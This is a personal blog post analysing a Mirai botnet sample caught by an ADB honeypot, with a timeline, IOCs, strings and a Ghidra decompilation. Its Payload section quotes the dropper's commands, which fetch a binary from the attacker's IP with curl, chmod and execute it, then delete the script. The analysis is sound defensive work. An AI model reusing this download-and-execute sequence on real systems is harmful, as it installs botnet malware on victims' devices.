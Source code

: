 ```yaml
---
slug: mirai
title: Analysis of Mirari Malware
authors: nathan
tags: [honeypot, reversing, malware]
sidebar_position: 1
image: https://m.media-amazon.com/images/I/41ZJaKEDzNL._AC_SX355_.jpg
---
```


## Intro 
I recently found out Google Cloud offers $300 for first time users, so I figured what better way to spend that than deploying a honeypot? While this blog post won't go into detail on deploying one yourself (keep at eye on my [docs](/docs/welcome) for a that) it will go into detail analyzing a malware sample that I discovered being deployed against it.

<!--truncate-->

## Timeline and Recon
On January 4th 2022 at ~20:30 UTC my honeypot deployed in Oregon was attacked by 205.185.123.62 hosted in [Las Vegas, Nevada.](https://www.iplocationtools.com/205.185.123.62)  It's hosted by "Frantech Solutions" which a cursoury google search gives results such as "FranTech Solutions is **a high fraud risk ISP**.." and [scamalytics](https://scamalytics.com/ip/isp/frantech-solutions) gives it a score of 64.

My honeypot was attacked a total of 24 times from this IP address. Starting at 20:30 UTC and ending at 11:00 UTC. 

## Attack Vector
This attack was caught by the [ADBHoney](https://github.com/huuck/ADBHoney) service running on my honeypot. ADBHoney describes itself as a "Low interaction honeypot designed for Android Debug Bridge over TCP/IP." Now I have some experience with ADB in a pior CTF so I understood a small bit of what this honeypot does. ADB is the Andriod Debug Bridge. It's essentially a protocol/tool that allows developers to communicate with andriod devices. It's used prominately in the emulation part of Andriod Studio. Unfortunately for us, the TCP section of the ADB protocol **does not** have any kind of authentication, leaving it open to attacks. This is what the honeypot sets up to gather samples.

## Payload

![image](/img/mirai/initial_payload.png)
*Figure 1: Inital Attack*

As we can see in Figure 1, the inital attack involves moving into the tmp directory, using [busybox](https://busybox.net/) to execute wget to get another sample and executes it. It repeats this twice, opting for curl for the second sample. Switching tools like that is common in malware droppers, allowing it to be ran on more hosts. A potential target could be missing either curl or wget, but missing both would be unlikely. Both **w.sh** and **c.sh** are essentially the same file as seen below. The only difference being what tool is used to download the next stage.


![image](/img/mirai/wget.png)
*Figure 2: wget method*

![image](/img/mirai/curl.png)
*Figure 3: curl method*

Here we can see how the actual malware sample is being downloaded. What makes this particular malware sample interesting is how it has different exectuables for a large set of instruction sets, ranging from ARM to SH4 to MIPS and even sparc. The first part of each line is downloading the malware `curl htt[p]s://209.141.33.122/arm`, then setting it as executable `chmod 777 arm`, then executing it with the argument of "android" `./arm android`. The final part of the script `rm $0` is deleting the script that was just ran in an effort to evade analysis. 

## Detection Rate and VirusTotal

Uploading the MIPS sample to [VirusTotal](https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection) gives it a detection ratio of 36/56 and most AV vendors classify this sample as belonging to the [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware)) botnet. It was first seen on December 29th, 2021.  

VirusTotal Link: https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection  

## IOCs
If you see network activity to these IPs/Domains or system activity relating to them, you might be infected.  
IPs: 209.141.33.122  
Domains: bots1.firewalla1337.cc, scan1.firewalla1337.cc  
System Activity: Creation of binaries in `/data/local/tmp` with the names of common instruction sets. Execution of binaries with the argument of `android`.  
## Analysis

Note: My reversing skills are still in its infancy, so please bear with me.

The first thing I did to this binary was run strings against it. This gave me some interesting findings seen below:

### Strings
`/dev/null`  
`POST /cdn-cgi/`   
`HTTP/1.1\r\nUser-Agent:`   
`\r\nHost:`   
`Cookie: `    
`bots1.firewalla1337.cc`   
`209.141.33.122`   
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345678`   
`dadlcldadg`    
`scan1.firewalla1337.cc`    

Lets open this sample in ghidra and look into it a bit further.

The only function I could make sense of was what to me looks like a domain resolution function here:
```c
void FUN_00410544(void)

{
  byte *pbVar1;
  uint uVar2;
  undefined2 *puVar3;
  int iVar4;
  
  pbVar1 = (byte *)FUN_00411908("bot[s]1.firewalla1337.cc");
  if (pbVar1 != (byte *)0x0) {
    iVar4 = *(int *)(pbVar1 + 4);
    uVar2 = FUN_00411518();
    if (*pbVar1 == 0) {
      trap(0x1c00);
    }
    DAT_0045d784 = *(undefined4 *)((uVar2 % (uint)*pbVar1) * 4 + iVar4);
    FUN_0041189c(pbVar1);
    FUN_00414e24(1);
    puVar3 = (undefined2 *)FUN_00414d0c(1,0);
    DAT_0045d782 = *puVar3;
                    /* WARNING: Could not recover jumptable at 0x00410634. Too many branches */
                    /* WARNING: Treating indirect jump as call */
    FUN_00414d40(1);
    return;
  }
  DAT_0045d784 = FUN_00417c20("209.1[4]1.33.122");
  return;
}
```
*Brackets in IP address and Domain added by myself*

Both the domain name and IP address are hardcoded, but these are both the same address of the machine where the attack originated from meaning we dont have the C2's address.

There are references to POSTs and setting URL variables in the malware which tells me that's most likely the way communication is handled between the C2 and the bots.  

Unfortunately this is the extent of my analysis of this sample. My reversing skills arent where they should be in order to properly reverse this sample. I would try dynamic analysis and see what domains/IPs this sample tries to contact, but the x86 version was not available and I do not have any spare system capable of executing the other instruction sets besides my Raspberry Pi4s, so lookout for a potential part 2 of this post where I execute the malware in a lab environment.

Thank you so much for reading this post. I learned a lot while investigating this sample and hopefully you learned something new reading this blog post. I hope to post more about my activities with my honeypot so keep an eye out for those posts when they drop.   

As always, if you have any feedback please don't hesitate to contact me at [my email.](mailto:nathan@nburns.tech?Subject=Reverse_Blogpost)

Nathan Burns
